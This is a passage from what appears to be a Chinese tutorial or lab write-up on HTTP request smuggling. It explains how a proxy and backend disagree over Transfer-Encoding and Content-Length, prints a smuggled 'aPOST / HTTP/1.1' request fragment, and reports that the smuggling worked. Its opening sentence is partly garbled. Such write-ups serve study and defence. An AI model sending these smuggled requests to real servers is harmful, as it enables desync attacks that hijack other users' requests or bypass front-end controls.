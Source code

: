 认为是读取结束。
 此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器处理`Transfer-encoding`请求头，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。读取到

```
5c\r\n
```

认为是读取完毕了。后面的数据就认为是另一个请求：

```
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

成功报错，造成HTTP请求走私。
